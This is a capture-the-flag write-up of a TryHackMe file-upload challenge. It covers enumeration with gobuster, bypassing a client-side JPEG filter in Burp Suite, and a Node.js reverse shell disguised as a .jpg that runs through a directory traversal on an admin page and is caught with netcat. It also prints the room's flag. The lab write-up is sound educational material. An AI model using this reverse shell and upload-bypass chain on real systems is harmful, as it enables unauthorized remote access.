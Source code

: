 # Task 11 Challenge - Write-up
A very cool and 1337-like CTF file-upload web vulnerability where several CL-tools where used as well as a web reverse shell. Take note that the attack machine for TryHackMe was used to complete this challenge.

## The task
It's challenge time!

Head over to jewel.uploadvulns.thm.

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/. Bear in mind that this challenge will be an accumulation of everything you've learnt so far, so there may be multiple filters to bypass. The attached wordlist might help. Also remember that not all webservers have a PHP backend...

## The Solution
### Enumeration
Visiting the website `jewel.uploadvulns.thm`, one can easily infer that the website accepts `jpg/jpeg` images, functionally for jewels, to showcase through the website. Somehow, we need to exploit this file upload vulnerability.

In CTFs like this one, it is imperative to gather as much information as possible on the target. As we were first introduced in the room to enumerate via `gobuster`, we will do exactly that.
```console
root@ip-10-10-241-182:~# gobuster dir -u jewel.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://jewel.uploadvulns.thm
[+] Threads:        64
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/02/09 20:58:12 Starting gobuster
===============================================================
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
Progress: 9029 / 220561 (4.09%)
```
Looking at the admin page, we see that we are able to execute code through it by choosing files in the `/modules` directory. From this, one can recognize that this is a potential directory-traversal vulnerability. 

Looking at the page source is another method of enumeration. The following lines are interesting. 
```html
    		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
```
`<script src="assets/js/upload.js"></script>` indicate some sort of script for filtering file-uploads. By clicking on this script, we are met with the following lines of code.
```js
$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){
			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "Ã¿ÃÃ¿"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}
const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
```
In addition, one can find a reference to the background image of the website of the form `/content/XXX.jpg`. It is reasonable to think that the images are uploaded are stored there.

Great! It seems like the JavaScript code filters by means of (1) File Extension, (2) Magic Number, and (3) File size. Since I am able to access this filtering, the script is a client-side filter which can be removed through `Burp Suite` via interception of responses. We do exactly this.

![Burp Suite Interception](/Images/Task11_uploadvulns_0)

Interesting, the header `X-Powered-By: Express` suggests that the server uses `Node.js` for its back-end programming language. This allows us to search online for a reverse shell code for `Node.js`. The reverse shell code used is from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.241.182", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Notice that I replaced the port field and IP-field appropriate to the machine who is going to be listening. In my case, it was the AttackBox machine.

Now that the client-side filter is removed, we can try to upload our Node.js reverse shell. One can quickly see that the file is not accepted suggesting that there are server-side filters in place. Editing our reverse shell to have the name `reverse-shell.jpg` and uploading it however leads to an acceptance. Awesome!

Remember the admin page? Well, we can leverage the directory-traversal vulnerability to get it to execute `reverse-shell.jpg`. We set-up a listener so:
```console
root@ip-10-10-241-182:~# nc -lvnp 4444
```
By typing in the field of the admin page with `../content/ALX.jpg`, we get a connection!!! Finally, `cat /var/www/flag.txt` gives us the flag `THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`.




